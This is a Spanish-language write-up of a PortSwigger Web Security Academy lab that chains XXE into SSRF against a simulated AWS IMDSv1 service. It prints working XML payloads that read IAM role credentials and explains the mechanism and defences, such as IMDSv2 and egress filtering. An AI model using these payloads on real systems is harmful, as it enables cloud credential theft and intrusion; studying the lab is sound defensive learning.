

# Writeup: Exploiting XXE to perform SSRF attacks (PortSwigger)

- **Lab**: Exploiting XXE to perform SSRF attacks
- **URL**: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf
- **Categoría**: XXE -> SSRF a metadata service de cloud (AWS IMDSv1)
- **Dificultad**: Apprentice
- **Credenciales**: no requiere login

---

## 1. Objetivo

Mismo endpoint XML que el lab anterior (POST `/product/stock`, reflejo del `productId` en errores), pero el target ya no es un archivo del filesystem. El servidor del lab simula correr en una instancia EC2 con el **AWS Instance Metadata Service (IMDS)** accesible en `http://169.254.169.254/`. Hay que cambiar el esquema de la entidad `SYSTEM` de `file://` a `http://` para convertir el XXE en **SSRF**, navegar la jerarquía del IMDS hasta `/latest/meta-data/iam/security-credentials/admin`, y leakear el JSON con `AccessKeyId`, `SecretAccessKey` y `Token` del rol IAM asignado a la instancia.

### Lo importante antes de tocar nada

- **El insight nuevo**: una entidad `SYSTEM` no está limitada a `file://`. El parser acepta cualquier esquema que su URL handler soporte (`http`, `https`, `ftp`, `gopher`, `jar`, etc.). Eso es lo que convierte XXE en SSRF.
- **Por qué `169.254.169.254` es target dorado**: dirección **link-local** (RFC 3927). AWS la usa para que cada instancia EC2 lea su propia configuración. **No requiere autenticación** en IMDSv1 porque la asunción es "si puedes hablar con esta IP, ya estás dentro de la instancia". SSRF rompe esa asunción.
- **Capital One (2019)**: 100M+ records leakeados por este patrón exacto. WAF mal configurado dejó hacer SSRF a `169.254.169.254`, atacante leyó credenciales IAM, accedió a S3.
- **IMDSv1 vs IMDSv2**: este lab simula IMDSv1 (legacy, sin auth). IMDSv2 (default desde 2020 en cuentas nuevas) requiere un token PUT obligatorio que no se puede obtener vía SSRF GET-only. Es la mitigación moderna; muchas instancias legacy siguen en IMDSv1.

---

## 2. Diferencia con el lab anterior (`exploiting-xxe-to-retrieve-files`)

Mismo endpoint, mismo canal de reflexión, mismo formato de payload. Cambia **una cosa**: el esquema de la URL en `SYSTEM`.

| Aspecto | Lab anterior (retrieve files) | Este lab (SSRF) |
|---|---|---|
| Esquema | `file://` | `http://` |
| Target | Filesystem local del server | Servicios de la red interna del server |
| Acción del parser | Leer archivo del disco | Hacer request HTTP saliente |
| Severidad | Lectura de archivos del proceso | Compromiso del rol IAM → escalada a cloud |
| Mitigación específica adicional | Permissions del filesystem | Egress filtering + IMDSv2 |

La lección: **XXE no es solo file disclosure**. Cualquier parser que resuelva entidades externas se convierte en un proxy HTTP server-side. Eso significa que XXE puede:
- Escanear puertos de la red interna (timing-based si el response no se refleja).
- Hablar con servicios internos sin auth (Redis sin auth, bases de datos en redes "confiables", consoles de admin solo accesibles por LAN).
- Pivotear a cloud metadata para credential theft.

---

## 3. Reconocimiento de la jerarquía IMDS

### 3.1 Estructura del servicio

IMDS sirve un árbol de paths jerárquicos. Pides un "directorio" (path con `/` final) y devuelve los hijos disponibles separados por newlines. Pides una "hoja" (path sin `/` final que apunta a un valor) y devuelve el contenido.

Camino al objetivo del lab:

1. **`/`**: lista de versionados.
   ```
   1.0
   2007-01-19
   ...
   latest
   ```

2. **`/latest/meta-data/`**: categorías de metadata.
   ```
   ami-id
   hostname
   iam/
   instance-id
   instance-type
   ...
   ```

3. **`/latest/meta-data/iam/security-credentials/`**: lista de roles IAM asociados (en este lab, uno solo).
   ```
   admin
   ```

4. **`/latest/meta-data/iam/security-credentials/admin`**: JSON con las credenciales temporales del rol.
   ```json
   {
     "Code": "Success",
     "LastUpdated": "...",
     "Type": "AWS-HMAC",
     "AccessKeyId": "ASIA...",
     "SecretAccessKey": "...",
     "Token": "...",
     "Expiration": "..."
   }
   ```

### 3.2 Paso recomendado: enumerar el rol antes de pedir credenciales

Aunque podrías ir directo asumiendo `admin`, en una explotación real no conoces el nombre del rol. La disciplina correcta:

**Paso A** (descubrir el rol):
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
Respuesta: `"Invalid product ID: admin"` (o el nombre real).

**Paso B** (leer credenciales con el rol descubierto):
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
Respuesta: el JSON completo. Lab Solved.

En el writeup actual el lab se resolvió saltando directo a paso B porque el path `admin` es estándar en los labs de PortSwigger; en producción real no asumir nombres.

---

## 4. Payload final (validado)

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Respuesta del lab (extracto):

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8

"Invalid product ID: {
  \"Code\":\"Success\",
  \"LastUpdated\":\"...\",
  \"Type\":\"AWS-HMAC\",
  \"AccessKeyId\":\"LezZNL4CqleEO8YU3Lli\",
  \"SecretAccessKey\":\"Ah7FkBfoes1eZTLZVzdqKir90s3SyaM84qMaLE1b\",
  \"Token\":\"yKzFNr39NtCMSRRLwb8Er94x9Ynn8louIfQwRXvaB3baexNgvn...\",
  \"Expiration\":\"2032-05-04T00:57:18\"
}"
```

El JSON aparece embebido como string dentro del `"Invalid product ID: ..."` porque el server lo trata como texto plano del campo `productId`.

---

## 5. Por qué funciona

### 5.1 El XML URL handler resuelve esquemas arbitrarios

Cuando el parser XML del backend (Java en este lab, Apache Xerces o similar) ve `SYSTEM "http://..."`, delega la resolución a su URI loader. Por default, el loader maneja `file:`, `http:`, `https:`, `ftp:`, y a veces más. No hay separación entre "esquemas seguros para metadata internal" y "esquemas seguros para input externo": el parser solo distingue por sintaxis, no por origen del input.

Eso significa que cualquier XML que llega al parser puede pedirle al server que haga requests HTTP a cualquier destino alcanzable. La única defensa práctica es **deshabilitar resolución de external entities** (lo mismo que mitiga XXE para lectura de archivos), o **filtrar egress a 169.254.169.254 a nivel de red** desde el host.

### 5.2 IMDSv1 no requiere autenticación porque asume aislamiento de red

La premisa de IMDSv1: la IP `169.254.169.254` solo es alcanzable desde la instancia misma (vía la stack de red de EC2). No hay routing externo posible. Por tanto, "cualquiera que pueda hablar con esta IP" = "código corriendo en esta instancia" = "no hay impostor posible".

La premisa **se rompe cuando un proceso server-side hace requests por delegación de input externo**: SSRF, XXE, request smuggling, abuso de webhook, redirect chain controlada, etc. El atacante externo no puede hablar con `169.254.169.254` directamente, pero hace que el server lo haga. La asunción de aislamiento se evapora.

IMDSv2 (lanzado nov-2019 tras Capital One) lo arregla con un protocolo de dos pasos:

1. Cliente hace `PUT http://169.254.169.254/latest/api/token` con header `X-aws-ec2-metadata-token-ttl-seconds: 21600`.
2. Recibe un token.
3. Para todo GET subsecuente debe incluir `X-aws-ec2-metadata-token: <token>`.

SSRF típico solo permite GET con headers limitados; conseguir un PUT con un header custom desde XXE/SSRF estándar es muy difícil. Eso bloquea la cadena.

### 5.3 El JSON sobrevive al parsing XML porque no contiene `<` ni `&` literales

Cuando el parser sustituye `&xxe;` por el contenido HTTP, ese contenido se vuelve parte del XML procesado. Si tuviera `<` o `&` literales, rompería el parse. JSON usa `{`, `}`, `:`, `"`, `,`, todos benignos en XML. Los valores (AccessKeyId, etc.) son base64-like, también benignos. Por eso el JSON entero sobrevive insertion sin necesidad de wrapper de codificación.

Si el target devolviera HTML con `<` o XML, el ataque rompería en parse y necesitarías wrapper como `php://filter/read=convert.base64-encode/resource=...` (PHP) o exfil OOB con DTD remoto (general).

---

## 6. Resolución

1. Repetir los pasos del lab anterior para llegar a Repeater con la petición POST `/product/stock` cargada.
2. **(Opcional pero recomendado)** Paso A: enumerar el rol con el payload apuntando a `/latest/meta-data/iam/security-credentials/`. Respuesta debe contener el nombre del rol (`admin`).
3. Paso B: enviar el payload final apuntando a `/latest/meta-data/iam/security-credentials/admin`. Respuesta contiene el JSON completo con `SecretAccessKey`.
4. Lab marca como Solved.

Si tras enviar:

- **`Connection refused` o timeout**: el path es incorrecto, o el rol enumerado no existe. Volver al paso A.
- **Respuesta vacía o trunca**: el contenido del JSON tiene caracteres XML peligrosos (no debería con AWS IMDS, pero un servicio interno custom podría devolver `<`). Si pasa, exfiltrar OOB con DTD remoto.
- **`error="No route to host"`**: el lab no está corriendo el simulador IMDS (improbable, refresh el lab).

---

## 7. Resumen de la cadena



Tres ideas para llevarse:

1. **XXE = SSRF gratis**. Cualquier endpoint que parsee XML user-controlled con un parser default-vulnerable da request HTTP server-side. La mitigación es la misma que para file disclosure (deshabilitar external entities), pero el alcance del daño es mucho mayor: redes internas, metadata services, console interfaces no expuestas en internet.
2. **Cloud metadata services son el target #1 de SSRF**. AWS, GCP, Azure, DigitalOcean, todos tienen IMDS en `169.254.169.254` o equivalente. Un SSRF (vía XXE, redirect chain, parser de URL imágenes, fetch en server-side rendering, etc.) se traduce inmediatamente a credential theft si la versión 1 del IMDS está activa. Defender: forzar IMDSv2, filtrar egress a 169.254.169.254 desde aplicaciones que no lo necesitan, usar VPC endpoints autenticados para servicios cloud.
3. **La asunción "si puede hablar conmigo, está adentro" se rompe en presencia de SSRF**. Cualquier servicio interno sin auth (Redis, Elasticsearch, Memcached, panel admin "solo LAN", IMDS, Consul/etcd) es atacable a través de un SSRF. Auth en todos los servicios internos, incluso los "no expuestos", es defense in depth real, no paranoia.

---

## 8. Contramedidas

Defensas en orden de robustez:

1. **Deshabilitar external entities en el parser XML** (la fix de raíz, igual que el lab anterior). Sin resolución de `SYSTEM`, no hay XXE ni el SSRF derivado. Mismas configuraciones por lenguaje (Java `disallow-doctype-decl`, Python `defusedxml`, .NET `XmlResolver = null`).
2. **Forzar IMDSv2 en todas las instancias EC2**. AWS Console o CLI:
   ```bash
   aws ec2 modify-instance-metadata-options \
     --instance-id i-... \
     --http-tokens required \
     --http-endpoint enabled
   ```
   `http-tokens required` = solo IMDSv2. Imagen de AMIs nuevas debería tenerlo activo por default. Auditar instancias legacy.
3. **Egress filtering desde el host de aplicación**. Bloquear con iptables/nftables/seguridad de VPC el acceso a `169.254.169.254` desde procesos de aplicación (no desde el agente del IMDS legítimo). Si la app no usa IMDS, no hay razón de que la pueda alcanzar.
4. **Privilegios mínimos del rol IAM**. Aunque alguien robe las credenciales, si el rol solo permite operaciones específicas en buckets específicos, el blast radius es limitado. **Revisión periódica de policies attached al instance role**: la mayoría de incidentes de SSRF→IAM aprovechan roles sobre-privilegiados que daban acceso a S3 entero o a operaciones sensibles tipo `iam:CreateUser`.
5. **VPC endpoints en lugar de service endpoints públicos**. Si la app necesita talk con S3/DynamoDB/etc., usar VPC endpoints y autenticación SigV4 explícita. Eso elimina la necesidad de credenciales temporales del rol IAM en muchos flujos.
6. **CloudWatch alarms en API calls anómalas con credenciales del rol**. Si el rol normalmente solo escribe en un bucket y de repente lista todos los buckets de la cuenta, eso es señal de credential theft. Detección post-explotación.

---

## 9. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Exploiting XXE to perform SSRF attacks*. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf
- PortSwigger Web Security Academy. (s.f.). *XML external entity (XXE) injection*. https://portswigger.net/web-security/xxe
- AWS. (s.f.). *Instance metadata and user data*. https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
- AWS. (2019). *Add defense in depth against open firewalls, reverse proxies, and SSRF vulnerabilities with enhancements to the EC2 Instance Metadata Service*. https://aws.amazon.com/blogs/security/defense-in-depth-open-firewalls-reverse-proxies-ssrf-vulnerabilities-ec2-instance-metadata-service/
- IETF. (2005). *RFC 3927: Dynamic Configuration of IPv4 Link-Local Addresses*. https://www.rfc-editor.org/rfc/rfc3927
- KrebsOnSecurity. (2019). *What We Can Learn from the Capital One Hack*. https://krebsonsecurity.com/2019/08/what-we-can-learn-from-the-capital-one-hack/
- OWASP Foundation. (s.f.). *Server Side Request Forgery Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html
- Writeup hermano: [`learning/portswigger/exploiting-xxe-to-retrieve-files/writeup.md`](../exploiting-xxe-to-retrieve-files/writeup.md)
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-xxe.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-xxe.md)
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-ssrf.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-ssrf.md)
